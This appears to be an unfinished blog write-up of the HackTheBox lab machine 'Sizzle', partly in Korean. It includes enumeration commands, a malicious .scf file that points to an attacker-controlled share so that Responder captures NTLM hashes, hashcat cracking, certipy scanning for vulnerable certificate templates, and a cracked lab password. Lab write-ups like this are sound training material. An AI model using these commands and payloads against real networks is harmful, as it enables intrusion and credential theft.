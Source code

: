 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### AD CS [Active Directory Certificate Services]
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.89.62 -vulnerable


```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```